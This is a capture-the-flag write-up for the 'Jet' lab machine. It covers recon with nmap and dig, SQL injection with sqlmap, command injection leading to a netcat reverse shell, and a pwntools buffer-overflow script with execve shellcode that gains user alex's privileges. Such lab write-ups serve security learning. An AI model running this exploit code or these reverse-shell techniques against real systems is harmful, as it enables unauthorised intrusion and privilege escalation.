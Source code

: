 # Nmap
```
Nmap scan report for 10.13.37.10
Host is up, received user-set (0.18s latency).
Scanned at 2024-02-07 12:27:48 +08 for 1513s
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 62:f6:49:80:81:cf:f0:07:0e:5a:ad:e9:8e:1f:2b:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzfo72P9KbpK9EZIE/AdtfSawGO5rjNM4GOu1Te5M2Z576c7aEVWv+284kw4OQ6JxQtFL56QsVaxRwxY9jGdpluJw5AWQpASy/Rx8q2JT7yGv0yGI8+tAIjLOMNmq5Qt6IjbDiSbL+gp6a+AsA0Mvm9OUYxBDM+LRsKFjwLDJCzFVKMFGc+gNrYJwpRa9RADsXN/19ogVYG8v9GvqFAJygMyTqVM0fbX3dDcAlMWgcHu81wMmQQGznjLe2gTY/sFAhASAfieVnSYIF11amofP8eUd+6jWL1wSlhRcW+j15tsPcotcfdpCrUJMFXq2tumXfNLJUWhv75Rf8pUeVobsx
|   256 54:e2:7e:5a:1c:aa:9a:ab:65:ca:fa:39:28:bc:0a:43 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLz7MT1sqbOHsYtNwWDfYJW8uCAPUL+zMJrW2DvIM7a9jG2RI40LNKjtiYv+M6DXjTWr3DK21kIWWK4TKMEl5Wo=
|   256 93:bc:37:b7:e0:08:ce:2d:03:99:01:0a:a9:df:da:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEEtJp2PzxXAhVXs6nNbgJXgRbLCiB/hcGJY5IgBKfS4
53/tcp    open  domain   syn-ack ttl 63 ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp    open  http     syn-ack ttl 63 nginx 1.10.3 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Welcome to nginx on Debian!
5555/tcp  open  freeciv? syn-ack ttl 63
| fingerprint-strings: 
|   DNSVersionBindReqTCP, GenericLines, GetRequest, adbConnect: 
|     enter your name:
|     [31mMember manager!
|     edit
|     change name
|     gift
|     exit
7777/tcp  open  cbt?     syn-ack ttl 63
9201/tcp  open  http     syn-ack ttl 63 BaseHTTPServer 0.3 (Python 2.7.12)
| http-methods: 
|_  Supported Methods: GET
|_http-title: Site doesn't have a title (application/json).
60006/tcp open  unknown  syn-ack ttl 63
```

# Flag 1 Connect
http://10.13.37.10<br>
![Flag 1](https://github.com/ngohuiann/CTF-Write-Ups/blob/main/image/Fortress%20Jet%20F1.png)

# Flag 2 Digging In
```
dig @10.13.37.10 -x 10.13.37.10 

; <<>> DiG 9.19.19-1-Debian <<>> @10.13.37.10 -x 10.13.37.10
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 52896
;; flags: qr aa rd; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;10.37.13.10.in-addr.arpa.	IN	PTR

;; AUTHORITY SECTION:
37.13.10.in-addr.arpa.	604800	IN	SOA	www.securewebinc.jet. securewebinc.jet. 3 604800 86400 2419200 604800

;; Query time: 347 msec
;; SERVER: 10.13.37.10#53(10.13.37.10) (UDP)
;; WHEN: Wed Feb 07 12:31:06 +08 2024
;; MSG SIZE  rcvd: 109
```
After adding www.securewebinc.jet to /etc/hosts visit www.secureweb.inc.jet
![Flag 2](https://github.com/ngohuiann/CTF-Write-Ups/blob/main/image/Fortress%20Jet%20F2.png)

# Flag 3 Going Deeper
In Burp we can see the web application is constantly calling to http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/stats.php
Visiting http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/ lead us to a login page.


# Flag 4 Bypass Authentication
Error message when attempting to sign in with admin:admin shows that admin user exists. Username parameter is vulnerable to SQL injection. Get the user's password hash with SQLmap and crach it with hashcat. 
![Flag 4](https://github.com/ngohuiann/CTF-Write-Ups/blob/main/image/Fortress%20Jet%20F4.png)

# Flag 5 Command
Trigger a post request to http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/email.php through the admin dashboard "Quick email" form. Start a netcat listener and receive a reverse shell through command injection.
![Flag 5](https://github.com/ngohuiann/CTF-Write-Ups/blob/main/image/Fortress%20Jet%20F5.png)
```
rlwrap nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.2] from (UNKNOWN) [10.13.37.10] 54576
/bin/sh: can't access tty; job control turned off
$ whoami
www-data
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash");'
www-data@jet:~/html/dirb_safe_dir_rf9EmcEIx/admin$ ls -la
ls -la
total 120
drwxr-x---  8 root www-data  4096 Jan  3  2018 .
drwxr-x---  3 root www-data  4096 Dec 20  2017 ..
-rw-r--r--  1 root root        33 Dec 20  2017 a_flag_is_here.txt
-rwxr-x---  1 root www-data   157 Jan  3  2018 auth.php
-rwxr-x---  1 root www-data    39 Dec 20  2017 badwords.txt
drwxr-x--- 32 root www-data  4096 Dec 20  2017 bower_components
drwxr-x---  6 root www-data  4096 Oct  9  2017 build
-rwxr-x---  1 root www-data    82 Dec 20  2017 conf.php
-rwxr-x---  1 root www-data 44067 Dec 27  2017 dashboard.php
-rwxr-x---  1 root www-data   600 Dec 20  2017 db.php
drwxr-x---  5 root www-data  4096 Oct  9  2017 dist
-rwxr-x---  1 root www-data   820 Dec 27  2017 dologin.php
-rwxr-x---  1 root www-data  2881 Dec 27  2017 email.php
-rwxr-x---  1 root www-data    43 Dec 20  2017 index.php
drwxr-x---  2 root www-data  4096 Dec 20  2017 js
-rwxr-x---  1 root www-data  3606 Dec 20  2017 login.php
-rwxr-x---  1 root www-data    98 Dec 20  2017 logout.php
drwxr-x--- 10 root www-data  4096 Dec 20  2017 plugins
-rwxr-x---  1 root www-data    21 Nov 14  2017 stats.php
drwxrwxrwx  2 root www-data  4096 Dec 20  2017 uploads
```

# Flag 6 Overflown
```python
import os

os.environ['PWNLIB_NOTERM'] = '1'

from pwn import *

p = remote('10.13.37.10', 60006)
# receive until we see this text
p.recvuntil("Oops, I'm leaking! ")
# store leaked libc base address
leak=int(p.recvuntil("\n"),16)
log.info('Libc address: {}'.format(hex(leak)))
p.recvuntil("> ")
leak2= p64(int(leak))
# execve x64 shellcode 30 bytes - https://www.exploit-db.com/exploits/37362/
payload = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload += "A"*(72-len(payload))
payload += str(leak2)
p.sendline (payload)

p.interactive()
```
```
www-data@jet:/tmp$ python bof.py
python bof.py
[x] Opening connection to 10.13.37.10 on port 60006
[x] Opening connection to 10.13.37.10 on port 60006: Trying 10.13.37.10
[+] Opening connection to 10.13.37.10 on port 60006: Done
[*] Libc address: 0x7fff808f2a90
[*] Switching to interactive mode
id
id
uid=33(www-data) gid=33(www-data) euid=1005(alex) groups=33(www-data)

ls -la /home/alex
total 916
drwxrwx--- 6 alex alex       4096 Feb  5 06:52 .
drwxr-xr-x 8 root root       4096 Apr  1  2018 ..
-rw-r--r-- 1 root root          0 Dec 28  2017 .bash_history
-rwxrwx--- 1 alex alex        220 Dec 27  2017 .bash_logout
-rwxrwx--- 1 alex alex       3771 Dec 27  2017 .bashrc
drwx------ 2 alex alex       4096 Feb  5 06:15 .cache
drwxr-x--- 3 alex alex       4096 Feb  5 06:46 .config
drwx------ 2 alex alex       4096 Feb  5 06:47 .gnupg
-rwxrwx--- 1 alex alex        655 Dec 27  2017 .profile
drwx------ 2 alex www-data   4096 Feb  5 06:13 .ssh
-rw-r--r-- 1 root root        659 Jan  3  2018 crypter.py
-rw-r--r-- 1 root root       1481 Dec 28  2017 encrypted.txt
-rw-r--r-- 1 root root       7285 Dec 27  2017 exploitme.zip
-rw-r--r-- 1 root root         27 Dec 28  2017 flag.txt
-rw-r--r-- 1 alex www-data      0 Feb  5 06:13 kik
```

